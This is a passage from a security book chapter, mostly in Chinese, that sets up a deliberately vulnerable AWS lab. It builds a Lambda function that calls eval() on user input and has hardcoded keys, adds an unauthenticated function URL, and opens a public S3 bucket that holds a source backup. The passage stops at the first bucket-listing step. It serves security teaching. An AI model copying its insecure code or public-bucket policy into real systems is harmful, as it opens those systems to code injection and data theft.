








## Chapter 6. Hacking Publicly Accessible AWS Lambda Functions

想象一下，你花费数周时间构建一个无服务器应用程序并将其发布给数千名用户。仅仅几天后，你发现应用程序停止工作，AWS 因为可疑活动而暂时暂停了你的账户。深入调查根本原因后，你意识到攻击者利用了公开可访问的 Lambda 函数中的代码注入漏洞，并使用其过于宽松的 IAM 角色访问并从 Secrets Manager 中窃取机密，以及从其他云资源中窃取敏感数据。此场景向你展示了单个易受攻击的 Lambda 函数足以触发整个 AWS 账户的全面数据泄露。


在本章中，你将探索攻击者如何利用公开暴露的 Lambda URL 并在函数的执行环境中运行任意代码。你将研究 Lambda 函数中的代码注入漏洞，当与过于宽松的 IAM 角色结合时，如何让攻击者窃取存储在 secrets manager 服务中的密钥。

为了帮助你亲身体验攻击者的视角，本章被组织为五个部分：

*   “准备和部署一个易受攻击的无服务器 Web 应用程序”
*   “测试常见的 S3 存储桶错误配置”
*   “使用代码注入攻击在 Lambda 函数中执行任意代码”
*   “通过代码注入和出站网络访问窃取敏感数据”
*   “通过易受攻击的 Lambda 函数窃取 Secrets Manager 密钥”

到本章结束时，你将更好地具备在攻击者利用之前识别易受攻击的无服务器配置的能力。

### Reviewing Technical Prerequisites

要跟随本章学习，你需要以下内容：

*   两个 AWS 账户：一个用于设置和托管易受攻击的无服务器实验室环境（Serverless Lab 账户），另一个用于运行模拟攻击（Attacker 账户）。确保两个账户都已准备就绪，并在单独的浏览器会话（或隐身/隐私窗口）中打开，以避免会话冲突。
*   在本地机器上安装的代码编辑器（如 VS Code 或 Sublime Text）。

如果你使用 Windows，请确保你有运行 macOS 或 Linux 命令的方法——例如，使用 WSL，或带有 Linux 发行版的 VM。

> Note
>
> 为了帮助你完成练习和模拟，本章中使用的代码和命令的副本可在 [GitHub gist (see `ch06.md`)](https://oreil.ly/0mSPU) 中获得。

### Preparing and Deploying a Vulnerable Serverless Web Application

代码注入是无服务器应用程序中远程代码执行的主要原因之一。它允许攻击者运行任意代码、访问敏感凭据或配置、通过网络外泄数据，并更改函数的行为或响应。当与过于宽松的 IAM 角色结合时，单个代码注入漏洞可能会让攻击者利用函数的权限并访问其他云资源。

在本节中，你将设置一个易受攻击的无服务器 Web 应用程序，以探索代码注入攻击如何导致 AWS Lambda 中未经授权的代码执行。这将帮助你更深入地了解不安全的代码以及函数级错误配置如何使无服务器应用程序暴露于各种安全威胁。

本章中你将使用的无服务器 Web 应用程序由托管在 Amazon S3 存储桶中的静态 Web 前端组成，该前端向一个故意容易受到代码注入攻击的 Lambda 函数发出请求（Figure 6-1）。



此应用程序允许用户在浏览器中输入数学表达式，后端对其进行求值并将响应发送回前端。在你完成动手示例的过程中，你将了解这些问题和错误配置如何被利用，并将看到可以实施的实用对策来减轻这些风险。

> Caution
>
> 在完成本章和下一章中的动手示例和模拟后，请务必删除云账户中所有的 Lambda 函数、S3 存储桶、IAM 角色和其他资源，以避免意外的费用和安全风险。

#### Setting Up a Vulnerable AWS Lambda Function

让我们开始设置一个易受攻击的 AWS Lambda 函数，该函数接受并求值用户提供的数学表达式。在本节中，你将重新创建并探索在真实无服务器应用程序中发现的几个编码和配置问题，包括函数代码中使用 `eval()`、源代码中硬编码的凭据以及存储在环境变量中的密钥。你还将使 Lambda 函数通过未经身份验证的函数 URL 暴露，该 URL 由托管在 S3 存储桶中的静态 Web 前端直接调用。^1

在深入动手部分之前，让我们定义与本章相关的几个关键术语：

**AWS Lambda function**

这段自包含的代码是无服务器应用程序的基本构建块。它响应特定事件运行，例如 API 请求、文件上传或数据库更新，并在 AWS 管理的安全隔离环境中执行。^2 每个函数都有一个单一的处理程序方法，该方法接收事件数据并执行你指定的逻辑。

**Lambda execution environment**

这个安全隔离的空间管理运行函数代码的资源。你在创建函数时提供配置——例如内存和超时——Lambda 使用此配置来配置执行环境。

**Lambda runtime**

管理调用事件流、上下文信息和函数响应的语言特定环境。Lambda 函数的运行时作为进程在 Lambda 执行环境内部运行。

**Lambda execution role**

函数在运行时假定的 AWS IAM 角色。它定义了函数可以执行的操作以及可以操作的资源。

**Function URL**

一个 HTTPS 端点，允许你直接从 Web 浏览器、`curl` 或任何 HTTP 客户端调用 Lambda 函数，而无需 API 网关。它提供了一种快速简单的方式来公开你的函数，非常适合原型设计和构建小型或简单应用程序。

你可以将本节中将设置的易受攻击 Lambda 函数视为高安全建筑内的维护控制台。它旨在让授权人员执行有限的系统任务，但如果未受保护或配置错误，攻击者可以将其用作进入点来篡改或控制建筑的系统。

> Note
>
> 本节假设你使用的是 Serverless Lab 账户，该账户托管易受攻击的无服务器实验室环境。

让我们现在逐步进行设置过程：

1. Sign in to the [AWS Management Console](https://oreil.ly/qe5es).
2. 在搜索栏中输入 `lambda`，然后从搜索结果列表中选择 Lambda。
3. 在左侧导航窗格中，选择 Functions，然后单击“Create function”。

   > Caution
   >
   > 在本章中，所有示例都假设你的 AWS 区域设置为 `us-east-1`。请确保 AWS 控制台右上角选择的区域设置为 `United States (N. Virginia)`。

4. 在“Create function”页面上，选择“Author from scratch” (Figure 6-2)。

   

   在“Basic information”窗格中，在“Function name”字段中指定 `lambda-0010`。然后为 Runtime 选择 Python 3.13。

   > Tip
   >
   > 如果你在阅读本文时有更新的 Python 运行时可用——例如 Python 3.14 或更高版本——你可以选择它。


点击“Permissions”下的“Change default execution role”以显示可用选项。在“Execution role”下，选择“Create a new role with basic Lambda permissions”。点击“Additional configurations”以显示可用选项。

在 Networking 部分下，在 Function URL 下，打开 Enable 复选框。对于“Auth type”，选择 NONE。打开“Configure cross-origin resource sharing (CORS)”复选框。点击“Create function”以继续创建你的 Lambda 函数。

#### Note

你应该会收到一条确认消息，内容为 `Successfully created the function lambda-0010`。Lambda 函数创建完成后，下一步是使用两个代表真实世界密钥的示例环境变量来配置该函数。

5. 导航到 Configuration 选项卡。点击“Environment variables”然后点击 Edit。

6. 在“Edit environment variables”页面，点击“Add environment variable”。然后在 Key 和 Value 字段下分别指定以下键值对：

*   `CUSTOM_ENV_VAR_01`: `KLMNO`
*   `CUSTOM_ENV_VAR_02`: `PQRST`

点击 Save 以使用你指定的环境变量值更新 Lambda 函数。

7. 让我们调整函数 URL 配置以允许从 S3 托管的网站发出的前端到后端请求成功。在 Configuration 选项卡上，点击 Function URL 然后点击 Edit。

在 Configure Function URL 页面，点击“Additional settings”以显示可用选项。在“Allow headers”下，点击“Add new value”然后指定 `content-type`。在“Allow methods”下，从下拉菜单中选择 `*`。点击 Save。你应该会收到一条成功通知，内容为 `Your changes have been saved`。

8. 现在是时候将易受攻击的代码引入你的 Lambda 函数了。导航到 Code 选项卡。在“Code source”部分，用以下内容替换现有的 `lambda_function.py` 代码：

```
from os import environ
get_env = environ.get

HARDCODED_KEY_01 = "ABCDE"
HARDCODED_KEY_02 = "FGHIJ"


def get_statement(event):
    params = event.get('queryStringParameters', {})
    statement = params.get('statement', None)

    return statement


def process_statement(statement):
    output = "No statement parameter value provided"

    if statement:
        output = eval(statement)

    return output


def lambda_handler(event, context):
    print("event: ", event)
    print("HARDCODED_KEY_01: ", HARDCODED_KEY_01)
    print("HARDCODED_KEY_02: ", HARDCODED_KEY_02)
    print("CUSTOM_ENV_VAR_01: ", get_env('CUSTOM_ENV_VAR_01'))
    print("CUSTOM_ENV_VAR_02: ", get_env('CUSTOM_ENV_VAR_02'))

    statement = get_statement(event)
    result = process_statement(statement)

    return {
        'statusCode': 200,
        'body': str(result)
    }
```

此 `lambda_handler()` 函数通过调用 `get_statement()` 从输入事件数据中提取表达式，然后将其传递给 `process_statement()` 进行求值来处理请求事件。

#### Tip

虽然在开发和测试期间 `print()` 语句很方便，但在生产环境中你应该使用 Python 内置的 `logging` 模块或其他结构化日志库。这些库让你可以定义日志级别（`INFO`、`WARNING`、`ERROR`），一致地格式化消息，并与 CloudWatch 等集中式日志解决方案集成。结构化日志改进了可观测性，使搜索和分析日志变得更容易，并有助于防止敏感信息意外泄露。

在 `lambda_function.py` 中完成更新后，点击 Deploy。你应该会收到通知 `Successfully updated the function lambda-0010`。

要测试你刚刚部署的 Lambda 函数，点击 Test。然后点击“Create new test event”。对于 Event Name 值，指定 `event-0010`。输入以下 Event JSON 值：

```
{
  "queryStringParameters": {
    "statement": "1 + 1"
  }
}
```

点击 Save 按钮。然后点击 Invoke。这会产生以下输出响应：

```
Status: Succeeded
Test Event Name: event-0010

Response:
{
  "statusCode": 200,
  "body": "2"
}

Function Logs:
START RequestId: ... Version: $LATEST
event: {'queryStringParameters': {'statement': '1 + 1'}}
HARDCODED_KEY_01:  ABCDE
HARDCODED_KEY_02:  FGHIJ
CUSTOM_ENV_VAR_01:  KLMNO
CUSTOM_ENV_VAR_02:  PQRST
END RequestId: ...
REPORT RequestId: ...   Duration: 11.69 ms  Billed Duration: 12 ms
Memory Size: 128 MB Max Memory Used: 35 MB
```

9. 在页面顶部的“Function overview”窗格中，点击格式为 `https://generated-id.lambda-url.us-east-1.on.aws/` 的函数 URL。

#### Note

这将在新的浏览器标签页中打开函数 URL。由于你尚未指定要求值的表达式，你会收到 `No statement parameter value provided` 作为响应。

10. 让我们做几个测试。通过在查询字符串中包含 `?statement=42` 将 `42` 传递给函数：

```
https://generated-id.lambda-url.us-east-1.on.aws/?statement=42
```

这会返回 `42`。

接下来，让我们将 `1 + 1` 传递给函数并直接包含在查询字符串中：

```
https://generated-id.lambda-url.us-east-1.on.aws/?statement=1+1
```

这会返回 `Internal Server Error`。

#### Note

在 URL 中，`+` 字符被解释为空格。因此，`?statement=1+1` 被解码为 `1 1`，由于 `1 1` 不是有效表达式，这会导致 `Internal Server Error`。为了保留 `+`，必须将其编码为 `%2B` 以确保函数接收到正确的输入：`1 + 1`。

在查询字符串中传递 `?statement=1%2B1`：

```
https://generated-id.lambda-url.us-east-1.on.aws/?statement=1%2B1
```

这次，Lambda 函数成功求值输入并返回 `2`。

11. 在进入下一节之前，切换回已打开 AWS Lambda 控制台的浏览器标签页。确保你已打开 `lambda-0010` 的 AWS Lambda 函数详情页面。

在“Function overview”部分，复制函数 URL，然后将其粘贴到本地机器上的文本编辑器中，以便你可以在 “Configuring an S3 Bucket for Static Website Hosting” 中轻松引用它。

你现在已完成易受攻击的按设计 Lambda 函数的设置。在下一节中，你将设置通过其函数 URL 调用 Lambda 函数并发送数学表达式负载进行求值的 S3 托管前端。

#### Configuring an S3 Bucket for Static Website Hosting

除了存储文件外，Amazon S3 还允许你托管一个与 AWS Lambda 函数和 API Gateway 资源等无服务器后端资源交互的静态网站。无需将前端代码托管在 Web 服务器或 EC2 实例上，你可以直接从 S3 存储桶提供服务，从而消除配置或维护服务器的需求。

在本节中，你将在 S3 存储桶中部署和配置一个与上一节中设置的 Lambda 函数交互的静态 Web 前端。你将首先克隆包含前端代码的存储库并将其上传到 S3 存储桶。接下来，你将在存储桶上启用静态网站托管并使其公开可访问，以便网站可以直接从 S3 提供服务。最后，你将通过在浏览器中输入示例有效数学表达式并确认求值结果按预期返回并显示来验证整个端到端工作流是否正常运行。

#### Note

本节假设你正在使用 Serverless Lab 账户，该账户托管易受攻击的按设计无服务器实验室环境。


### 设置 S3 主机前端

让我们继续设置 S3 主机前端：

1. 在 AWS 管理控制台中，在搜索栏中输入 `cloudshell`，然后从匹配的服务列表中选择 CloudShell。

#### Tip

如果出现 Welcome to CloudShell 弹出窗口，只需单击 Close 即可继续。

2. 在 CloudShell 终端中（在 `$` 符号之后）运行以下命令以克隆 `vulnerable-lambda-function-frontend` 仓库：

```
USERNAME=learning-serverless-security
REPO=vulnerable-lambda-function-frontend

git clone https://github.com/$USERNAME/$REPO.git

cd vulnerable-lambda-function-frontend
```

#### Note

本节使用的所有代码示例和命令都可以在 [`vulnerable-lambda-function-frontend` GitHub 仓库](https://oreil.ly/0Ew49) 中找到。

3. 使用 `tree` 命令检查项目结构：

```
sudo yum install tree -y

tree
```

这会输出以下树状的文件和文件夹结构：

```
.
├── backup
│   └── lambda_function.py
├── index.html
└── README.md

1 directory, 3 files
```

4. 将 `[SPECIFY LAMBDA FUNCTION URL]` 替换为“设置易受攻击的 AWS Lambda 函数”中的实际函数 URL，然后运行以下命令以更新 `index.html` 文件中指定的占位符值：

```
FUNCTION_URL="[SPECIFY LAMBDA FUNCTION URL]"

sed -i "s|<INSERT FUNCTION URL HERE>|$FUNCTION_URL|g" index.html
```

5. 检查 `index.html` 的内容并确认代码已正确更新：

```
less -N index.html
```

确保 `index.html` 文件第 98 行的占位符 `<INSERT FUNCTION URL HERE>` 已被实际的 Lambda 函数 URL 替换。^4

#### Tip

在验证代码更新后，按 Q 退出 `less` 查看器并返回终端。

6. 创建一个新的 S3 存储桶：

```
BUCKET_NAME="serverless-static-website-$(date +%s)"
REGION="us-east-1"

aws s3 mb s3://$BUCKET_NAME --region $REGION
```

运行该命令会在 `us-east-1` 中创建 S3 存储桶——对应美国东部（弗吉尼亚北部）AWS 区域。

#### Note

附加 `date +%s` 命令的输出有助于确保生成的 S3 存储桶名称在所有 AWS 账户中都是全局唯一的，因为它返回自 1970 年 1 月 1 日以来的秒数。例如，如果你运行此命令，你会得到类似 `1751705486` 的值。这确保即使两个用户运行相同的命令来创建新的 S3 存储桶，由于唯一的时间戳，结果的存储桶名称也会不同。

7. 配置 S3 存储桶以进行公共访问和静态网站托管：

```
aws s3api put-public-access-block \
  --bucket "$BUCKET_NAME" \
  --public-access-block-configuration '{
    "BlockPublicAcls": false,
    "IgnorePublicAcls": false,
    "BlockPublicPolicy": false,
    "RestrictPublicBuckets": false
  }'

aws s3 cp index.html s3://$BUCKET_NAME/index.html

aws s3 website "s3://$BUCKET_NAME/" --index-document index.html
```

8. 将 Lambda 函数源代码的备份副本上传到 S3 存储桶：

```
aws s3 cp backup s3://$BUCKET_NAME/backup --recursive
```

#### Caution

这是在实践中*不应该*做的事情的一个例子。切勿将应用程序的源代码存储到配置为静态网站托管的存储桶中。正如你在本章后面会看到的，攻击者可以利用 S3 存储桶的配置错误来发现源代码备份文件夹并下载其内容。

9. 设置一个公共存储桶策略，允许用户访问 S3 主机 Web 应用程序：

```
cat > bucket-policy.json <<EOF
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "PublicReadGetObject",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "s3:GetObject",
        "s3:ListBucket"
      ],
      "Resource": [
        "arn:aws:s3:::$BUCKET_NAME",
        "arn:aws:s3:::$BUCKET_NAME/*"
      ]
    }
  ]
}
EOF

aws s3api put-bucket-policy \
  --bucket "$BUCKET_NAME" \
  --policy file://bucket-policy.json
```

10. 打印你的 S3 主机网站的 URL：^5

```
echo "http://$BUCKET_NAME.s3-website-$REGION.amazonaws.com"
```

#### Tip

你也可以通过 AWS 管理控制台检索存储桶网站端点，方法是转到 S3 存储桶的 Properties 选项卡，并在“Static website hosting”下查看“Bucket website endpoint”。

11. 复制上一步的 URL 输出并将其粘贴到浏览器地址栏中。这应该会打开一个 S3 主机网站（Figure 6-3）。



该页面有一个文本区域，可在其中输入数学表达式。单击 Evaluate 按钮会将输入表达式发送到后端 Lambda 函数（`lambda-0010`）进行处理。Lambda 函数通过使用 `eval()`（在 `process_statement()` 函数内部）来评估表达式并将输出返回给前端。然后结果会显示在页面上，以便你立即查看评估输出。

#### Tip

尝试在文本区域中输入并评估一个简单的表达式（例如 `1 + 1`）以确认你的设置按预期工作。

在实践中，S3 主机网站可能会位于 Amazon CloudFront 分发后面，以启用 HTTPS、提供安全的内容交付，并通过将静态资源缓存到更靠近用户的边缘位置来提高性能。借助 Route 53，你可以配置域名系统（DNS）记录，将来自自定义域的流量路由到 CloudFront 分发，如 Figure 6-4 所示。



为了避免不必要的开销，我们将跳过完整的生产设置，而是专注于模拟攻击者如何利用 S3 存储桶配置错误以及 Lambda 函数中的代码注入漏洞。本章中此无服务器实验室环境设置的初始设置如 Figure 6-5 所示。



有了此设置，用户可以通过浏览器访问 S3 主机网站，在文本区域中输入有效的数学表达式，单击 Evaluate 按钮，并查看 Lambda 函数返回的评估结果。从攻击者的角度来看，此设置为利用不安全的输入处理并发起代码注入攻击提供了机会。如果代码注入攻击成功，攻击者可能会获得对 Lambda 执行环境中存储的环境变量和密钥的未经授权的访问，并可能通过滥用函数的 IAM 角色权限来提升权限并访问 AWS 账户中的其他资源。

当你阅读本章的每个部分时，你将看到此实验室设置如何演变以阻止出站连接并通过具有限制性网络控制的 VPC 防止数据外泄。这将帮助你以逐步的方式模拟攻击和防御，每一节都建立在前一节的基础上。

### 测试常见的 S3 存储桶配置错误

虽然你可能很想立即测试代码注入，但最好先查看相关资源和组件是否存在配置问题。由于此无服务器应用程序使用 Amazon S3 来托管前端，因此自然的起点是检查 S3 存储桶是否存在常见的配置错误以及是否存在任何可能暴露的源代码或凭据。

有鉴于此，让我们模拟攻击者发现并从 S3 存储桶下载暴露的文件：


1. 将 `[S3 BUCKET NAME]` 替换为你的 S3 存储桶的实际名称，然后在浏览器中打开以下 URL：

```
http://[S3 BUCKET NAME].s3.amazonaws.com/
```

#### Note

如果你的存储桶名称是 `serverless-static-website-abc123`，则 URL 将为 *http​://serverless-static-website-abc123.s3​.ama⁠zonaws.com/*。

这会返回一个类似以下的 XML 响应：

```
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
 <Name>serverless-static-website-...</Name>
 <Prefix/>
 <Marker/>
 <MaxKeys>1000</MaxKeys>
 <IsTruncated>false</IsTruncated>
 <Contents>
  <Key>backup/lambda_function.py</Key>
  <LastModified>...</LastModified>
  ...
 </Contents>
